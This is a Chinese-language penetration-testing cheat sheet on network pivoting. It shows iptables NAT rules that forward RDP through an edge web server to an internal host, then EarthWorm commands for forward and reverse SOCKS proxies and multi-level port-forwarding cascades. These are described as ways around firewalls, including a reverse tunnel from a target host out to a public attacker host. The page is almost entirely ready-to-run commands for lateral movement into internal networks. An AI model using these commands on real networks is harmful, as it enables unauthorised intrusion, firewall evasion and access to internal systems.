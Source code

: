 ## 0x02 iptables

1、编辑配置文件/etc/sysctl.conf

    net.ipv4.ip_forward = 1
 
2、关闭服务

    service iptables stop
 
3、配置规则

需要访问的内网地址：192.168.206.101
内网边界web服务器：192.168.206.129

    iptables -t nat -A PREROUTING --dst 192.168.206.129 -p tcp --dport 3389 -j DNAT --to-destination 192.168.206.101:3389
    iptables -t nat -A POSTROUTING --dst 192.168.206.101 -p tcp --dport 3389 -j SNAT --to-source 192.168.206.129
     
4、保存&&重启服务

    service iptables save && service iptables start


## 0x03 EarthWorm[绕防火墙]

http://rootkiter.com/EarthWorm/
1. 正向 SOCKS v5 服务器
 
    $ ./ew -s ssocksd -l 1080
 
2. 反弹 SOCKS v5 服务器
这个操作具体分两步：
  
    a) 先在一台具有公网 ip 的主机A上运行以下命令：
        $ ./ew -s rcsocks -l 1080 -e 8888 
    b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口
        $ ./ew -s rssocks -d 1.1.1.1 -e 8888 
 
3. 多级级联
 
工具中自带的三条端口转发指令，
它们的参数格式分别为：
 
    $ ./ew -s lcx_listen -l  1080   -e 8888
    $ ./ew -s lcx_tran   -l  1080   -f 2.2.2.3 -g 9999
    $ ./ew -s lcx_slave  -d 1.1.1.1 -e 8888    -f 2.2.2.3  -g  9999
  
通过这些端口转发指令可以将处于网络深层的基于TCP的服务转发至根前,比如 SOCKS v5。
首先提供两个“二级级联”本地SOCKS测试样例：
 
    a) lcx_tran 的用法
        $ ./ew -s ssocksd  -l 9999
        $ ./ew -s lcx_tran -l 1080 -f 127.0.0.1 -g 9999
    b) lcx_listen、lcx_slave 的用法
        $ ./ew -s lcx_listen -l 1080 -e 8888
        $ ./ew -s ssocksd    -l 9999
        $ ./ew -s lcx_slave  -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
  